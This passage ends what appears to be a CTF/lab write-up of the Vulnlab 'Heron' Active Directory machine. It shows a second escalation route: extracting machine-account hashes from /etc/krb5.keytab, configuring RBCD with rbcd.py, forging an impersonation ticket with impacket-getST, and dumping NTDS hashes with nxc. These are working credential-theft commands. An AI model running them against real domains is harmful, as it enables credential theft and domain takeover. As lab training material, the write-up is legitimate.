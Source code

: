 AND WE ARE ROOT !!, if you have any questions you can dm me on discord : 'ethicxz.' or on [instagram](https://www.instagram.com/eliott.la/)

## Other way to privesc RBCD with a machine

There is also a another way to RBCD in this chain, when we got the root on the target linux machine we didnt digging anything, but we can do this :

[https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#extract-accounts-from-etc-krb5.keytab](https://book.hacktricks.xyz/linux-hardening/privilege-escalation/linux-active-directory#extract-accounts-from-etc-krb5.keytab)

[https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py](https://github.com/sosdave/KeyTabExtract/blob/master/keytabextract.py)

```bash
root@frajmp:/tmp# python3 keytabextract.py /etc/krb5.keytab
[*] RC4-HMAC Encryption detected. Will attempt to extract NTLM hash.
[*] AES256-CTS-HMAC-SHA1 key found. Will attempt hash extraction.
[*] AES128-CTS-HMAC-SHA1 hash discovered. Will attempt hash extraction.
[+] Keytab File successfully imported.
        REALM : HERON.VL
        SERVICE PRINCIPAL : FRAJMP$/
        NTLM HASH : 6f[...]4f7
        AES-256 HASH : 7be[...]130e7
        AES-128 HASH : dca[...]cd
```

Then we can rbcd with a machine like this :

```bash
# create
rbcd.py -delegate-from 'frajmp$' -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'write' 'heron.vl/adm_prju:REDACTED'

# check
rbcd.py -delegate-to 'mucdc$' -dc-ip 10.10.173.53 -action 'read' 'heron.vl/adm_prju:REDACTED'

# get ticket
impacket-getST -dc-ip 10.10.173.53 -spn cifs/mucdc.heron.vl 'heron.vl/frajmp$' -impersonate _admin -hashes :6f[...]4f7

# export ticket and get hashes
nxc smb 10.10.173.53 --use-kcache --ntds
```

